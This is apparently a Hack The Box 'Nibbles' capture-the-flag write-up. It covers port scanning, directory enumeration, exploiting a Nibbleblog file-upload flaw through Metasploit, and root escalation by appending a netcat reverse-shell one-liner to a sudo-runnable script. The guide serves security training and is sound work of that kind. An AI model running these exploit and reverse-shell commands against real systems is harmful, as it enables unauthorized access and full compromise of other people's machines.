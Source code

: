 # Nibbles | HTB
### Difficulty : Easy
-------------------------------

Let's start with nmap scan to find open ports and services within the system:

```bash
nmap -p- -T4 -A 10.10.10.75 -oN nibbles.nmap
```

-p- scans all ports instead the 1000 common ports scan defaultivy way.

-T4  - increase the spped of the scan.

-A  - aggressive scan to gather more information about the system.

-oN - saves the output to a file.


Results:

```bash
Nmap scan report for 10.10.10.75
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/18%OT=22%CT=1%CU=33777%PV=Y%DS=2%DC=T%G=Y%TM=65F8
OS:88D9%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10D%TI=Z%II=I%TS=8)SEQ(S
OS:P=100%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%II
OS:=I%TS=8)SEQ(SP=102%GCD=1%ISR=10C%TI=Z%TS=8)OPS(O1=M53CST11NW7%O2=M53CST1
OS:1NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=71
OS:20%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M5
OS:3CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   230.60 ms 10.10.14.1
2   230.77 ms 10.10.10.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 515.57 seconds
```

I'll try to find any intersting directory within the systen with:

```bash
└─# gobuster dir -u http://10.10.10.75 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

-u - the traget url.

-w - the wordlist to scan the system with.

While scanning, I navigated to the address within the browser. I decided to view the source code.


![image](https://cdn-images-1.medium.com/max/1000/1*byJhHlMqipaqplu6OGRR3w.png)


It sends us to /nibbleblog/.


![image](https://cdn-images-1.medium.com/max/1000/1*bXNAX8k7NVW5eWed7Iu8nw.png)


The previous gobuster scan didn't find any directory, but after we found the blog, let's scan another time but with the /nibbleblog/.

Results:

![image](https://cdn-images-1.medium.com/max/1000/1*8W4FF3LwC2N5AqNdcplJKA.png)


After traveling betweem the directories within /admin, I didn't find anything there. 
But there is README file that includes the version of the nibbleblog service.


![image](https://cdn-images-1.medium.com/max/1000/1*Sw-slPkN3-mQNnwhOMbfnw.png)


Let's check if this service at that version is vulnerable.

```bash
searchsploit nibbleblog   
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                       | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                        | php/remote/38489.rb
----------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Use metasploit to try the Arbitrary File Upload, but after I use "options" to understand what info I need to provide 
to run the exploit, it demends username and password. At that moment, I don't have any credentials.

After some research I found a github that includes the exploit with an example how to use it:

https://github.com/dix0nym/CVE-2015-6967


![image](https://cdn-images-1.medium.com/max/1000/1*3AEzPOCvVD08Rq76Zpms4Q.png)


I decided to provide the path, username and password (it can be default credentials). and then I got meterpreter shell!

On metasploit:

```bash
set lhost <your-ip>

set rhost <target-machine>

set targeturi /nibbleblog/

run

```


![image](https://cdn-images-1.medium.com/max/1000/1*B4Bn9ppeAtkNYmhTibOJrA.png)


Stabilized the shell with:

```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

```

![image](https://cdn-images-1.medium.com/max/1000/1*QDLymSfm1yv52sq-R4ZXNg.png)

There is zip file maybe there is something:



```bash
unzip personal.zip
```

and there is a script "monitor.sh". Let's check if can we run files as root with:

```bash
sudo -l
```

![image](https://cdn-images-1.medium.com/max/1000/1*2NeIv8555jTiQxE-C9Qk6w.png)


Because we know that this file can run as root so let's upload a reverse shell payload to the file:

```bash
echo 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <tun-0> 2222 >/tmp/f' >> monitor.sh    
```

Set netcat listener on your machine:

```bash
nc -lnvp 2222
```

then run monitor.sh :

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

and there is reverse shell as root:


![image](https://cdn-images-1.medium.com/max/1000/1*tYtmcGedyOT67-_N1pG50w.png)


grab /root/root.txt

and this is it for now.


***Written by Alon Presman, Penetration Tester and Ethical Hacker.***
























































































